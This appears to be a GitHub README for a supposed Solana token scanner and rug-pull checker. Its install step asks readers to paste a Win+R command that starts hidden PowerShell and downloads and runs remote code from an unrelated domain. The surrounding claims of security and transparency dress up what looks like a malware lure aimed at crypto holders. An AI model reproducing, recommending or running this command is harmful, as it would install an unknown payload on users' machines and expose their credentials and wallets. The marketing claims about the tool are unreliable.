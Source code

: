 ## **Solana Token Scanner** | **Rug Pull Checker** 🔎📈

![main](https://raw.githubusercontent.com/rug-pull-checker/dasd/refs/heads/main/screen.jpg)

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>
<h2 style="color: #3498db; border-bottom: 2px solid #e74c3c; padding-bottom: 5px;">Description</h2>
<p>Welcome to our project <strong>Solana Token Scanner & Rug Pull Checker</strong>! Our program is designed to analyze tokens in the Solana ecosystem, providing users with powerful tools to check the security and reliability of tokens. In the rapidly evolving world of cryptocurrencies, where the risks of fraud and <span style="color: #e74c3c; font-weight: bold;">"rug pulls"</span> are becoming increasingly relevant, we offer a solution that will help you make informed decisions.</p>

<h2 style="color: #3498db; border-bottom: 2px solid #e74c3c; padding-bottom: 5px;">Key Features</h2>
<div style="background-color: #e67e22; color: #fff; padding: 10px; border-radius: 5px; margin: 10px 0;">
    <ol>
        <li>
            <strong>Solana meme coin checker</strong><br>
            Our program allows users to scan tokens on the Solana platform, providing information about current transactions, trading volumes, and other key metrics. This will help you better understand the market situation and choose the most promising tokens.
        </li>
        <li>
            <strong>Solana Token Checker</strong><br>
            With our tool, you can easily check tokens for fraudulent schemes and anomalies. We provide data on the contract, token metadata, and its prices, allowing you to assess its reliability.
        </li>
        <li>
            <strong>Rug Pull Checker</strong><br>
            Our program includes a powerful tool for detecting potential <span style="color: #e74c3c; font-weight: bold;">"rug pulls"</span>. We analyze tokens for signs of fraud and provide users with warnings about possible risks. This will help you protect your investments.
        </li>
        <li>
            <strong>Comprehensive Analysis and Statistics</strong><br>
            We offer detailed analysis of tokens, including statistics and charts, allowing you to dive deeper into the data and make more informed decisions.
        </li>
    </ol>
</div>

<h2 style="color: #3498db; border-bottom: 2px solid #e74c3c; padding-bottom: 5px;">Project Potential</h2>
<p>With the growing popularity of Solana and the increasing number of new tokens, the need for reliable tools to analyze and verify tokens is becoming more relevant. Our program has enormous potential for expanding functionality, including integration with other blockchains, adding new analytical tools, and the ability to create custom risk alerts.</p>

<h2 style="color: #3498db; border-bottom: 2px solid #e74c3c; padding-bottom: 5px;">Conclusion</h2>
<p>Join our project and help make the world of cryptocurrencies safer and more transparent! We welcome any feedback and suggestions for improvement. If you have any questions, feel free to reach out!</p>

<div
